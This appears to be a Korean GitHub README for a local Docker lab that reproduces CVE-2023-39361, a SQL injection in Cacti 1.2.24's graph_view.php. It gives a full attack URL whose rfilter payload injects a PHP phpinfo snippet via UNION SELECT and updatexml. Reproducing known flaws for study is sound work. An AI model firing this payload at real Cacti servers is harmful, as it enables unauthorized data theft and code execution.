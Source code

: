 # CVE-2023-39361 - Cacti SQL Injection PoC

## 🔍 개요
이 저장소는 Cacti 1.2.24 버전의 `graph_view.php` 파일에서 발생하는 SQL Injection 취약점(CVE-2023-39361)을 재현하기 위한 PoC입니다. 이 취약점은 `rfilter` 파라미터가 부적절하게 필터링되며, 공격자가 임의의 SQL 쿼리를 삽입해 데이터베이스 정보를 유출할 수 있게 됩니다.

## ⚙️ 환경 구성
PoC는 Docker 및 Docker Compose를 사용하여 구성됩니다. 아래 명령어를 통해 재현 환경을 빠르게 구성할 수 있습니다.

```bash
git clone https://github.com/your-id/cacti-sqli-poc.git
cd cacti-sqli-poc
docker compose up -d --build
```

### 📁 주요 파일 설명
- `Dockerfile`: Cacti가 포함된 웹 환경을 구성합니다.
- `docker-compose.yml`: 웹 서버 및 MySQL 데이터베이스 컨테이너를 구성합니다.
- `entrypoint.sh`: Apache 서버를 실행하고 Cacti 초기 설정을 도와주는 스크립트입니다.

## 🧪 취약점 재현 방법

### 1. 브라우저로 접속
```
http://localhost:8080
```

Cacti 설치 페이지가 나타나며, DB 정보는 아래와 같이 설정되어 있습니다:
- DB Host: db
- DB User: cacti
- DB Password: cacti

설치를 완료한 뒤 로그인 화면으로 이동합니다.

### 2. phpinfo 통한 원격 코드 실행 테스트 
```
http://localhost:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaa"%20OR%20""="(("))%20UNION%20SELECT%201,2,3,4,5,6,updatexml(rand(),concat(0x7e,"<?php%20phpinfo();?>",0x7e),null),8,9,10%23
```

이 요청을 통해 내부 phpinfo 코드가 삽입되어 실행되며, 로그인 화면이 phpinfo 페이지처럼 변경되는 것을 확인할 수 있습니다.

## 🖼️ 재현 캡처
> 📸 Burp Suite 캡처, 공격 URL 실행 결과, phpinfo 노출 화면 등은 `/screenshots` 디렉토리에 정리되어 있습니다.

## 🛡️ 영향 범위
- Cacti 1.2.24 이하 버전에서 영향을 받습니다.
- 인증 없이 익스플로잇 가능하며, SQL Injection을 통해 인증 우회 및 원격 코드 실행까지 가능합니다.

## 📚 참고
- https://nvd.nist.gov/vuln/detail/CVE-2023-39361
- https://github.com/vulhub/vulhub/tree/master/cacti/CVE-2023-39361

---

